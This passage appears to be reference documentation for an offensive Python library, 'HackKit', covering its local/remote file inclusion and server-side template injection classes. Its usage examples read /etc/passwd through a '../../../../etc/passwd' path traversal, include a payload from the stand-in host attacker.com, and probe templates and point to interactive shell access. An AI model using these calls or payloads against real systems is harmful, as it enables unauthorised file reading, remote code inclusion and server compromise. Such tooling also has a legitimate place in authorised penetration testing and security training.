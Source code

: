 | Method                                                                              | Signature                                                                  | Description                               |
| ----------------------------------------------------------------------------------- | -------------------------------------------------------------------------- | ----------------------------------------- |
| `__init__()`                                                                        | `def __init__(self) -> None`                                               | Imports and ensures `requests` available. |
| `automatic_dependency_checking()`                                                   | Installs `requests` if missing.                                            |                                           |
| `detect_lfi(url: str, param: str, payloads: Optional[List[str]]=None) -> List[str]` | Inject LFI payloads, return successful payloads.                           |                                           |
| `read_file(url: str, param: str, filepath: str) -> Optional[str]`                   | Read remote file via LFI, return content or None.                          |                                           |
| `test_rfi(url: str, param: str, remote_url: str) -> bool`                           | Test RFI by including external URL, return True if remote content appears. |                                           |

##### Example: LFI\_RFI Master Example

```python
from HackKit import LFI_RFI

lfi = LFI_RFI()
base = "http://vuln/page.php?file="
# 1) Detect LFI
payloads = lfi.detect_lfi(base + "user=1", param="file")
print("Successful payloads:", payloads)
# 2) Read /etc/passwd
content = lfi.read_file(base, param="file", filepath="../../../../etc/passwd")
print(content)
# 3) Test RFI (OOB)
is_rfi = lfi.test_rfi(base, param="file", remote_url="http://attacker.com/payload")
print("RFI possible?", is_rfi)
```

---

### 12. `SSTI`

**Platforms:** Cross-platform
**Dependencies:** `requests`

#### Methods

| Method                                                                                    | Signature                                          | Description                   |
| ----------------------------------------------------------------------------------------- | -------------------------------------------------- | ----------------------------- |
| `__init__()`                                                                              | `def __init__(self) -> None`                       | Ensures `requests` available. |
| `automatic_dependency_checking()`                                                         | Installs `requests` if missing.                    |                               |
| `detect_ssti(url: str, param: str, payloads: Optional[List[str]]=None) -> Dict[str,bool]` | Test SSTI payloads, return dict of payload->bool.  |                               |
| `exploit_ssti(url: str, param: str, template: str) -> Optional[str]`                      | Send custom template, return response text on 200. |                               |
| `get_interactive_shell(url: str, param: str) -> None`                                     | Print guidance for interactive SSTI shell usage.   |                               |

##### Example: SSTI Master Example

```python
from HackKit import SSTI

ssti = SSTI()
url = "http://vuln/render"
# 1) Detect SSTI
res = ssti.detect_ssti(url, param="template")
print(res)
# 2) Exploit with arithmetic
resp = ssti.exploit_ssti(url, param="template", template="{{7*7}}")
print(resp)
# 3) Interactive shell hint
ssti.get_interactive_shell(url, param="template")
```
